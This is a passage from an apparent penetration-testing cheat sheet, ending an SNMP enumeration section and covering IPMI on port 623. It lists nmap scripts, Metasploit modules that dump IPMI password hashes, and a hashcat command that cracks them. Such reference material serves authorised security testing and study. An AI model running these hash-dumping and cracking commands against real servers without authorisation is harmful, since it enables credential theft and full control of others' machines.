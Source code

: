    # Use snmp-check for a more readable output
    snmp-check -c <found_community_string> <ip>
    ```
  * **Key Information**: Hostnames, usernames, network routes, running processes, system uptime.

-----

### IPMI (Port: 623/UDP)

  * **Goal**: Check for weak credentials or vulnerabilities in the out-of-band management interface, which could allow full server control.
  * **Automated Enumeration (Nmap)**
    ```shell
    nmap -sU -p 623 --script ipmi-info,ipmi-version <ip>
    ```
  * **Tool-Based Enumeration (Metasploit)**
    ```shell
    msfconsole
    use auxiliary/scanner/ipmi/ipmi_version
    set RHOSTS <ip>
    run

    # Attempt to dump password hashes (often weak or default)
    use auxiliary/scanner/ipmi/ipmi_dumphashes
    set RHOSTS <ip>
    run
    ```
  * **Hash Cracking**
    ```shell
    # Crack dumped hashes with Hashcat (mode 7300 is IPMI2 RAKP)
    hashcat -m 7300 ipmi_hashes.txt /path/to/wordlist.txt
    ```
  * **Key Information**: Ability to remotely power on/off a server, access its console, and potentially retrieve credentials.
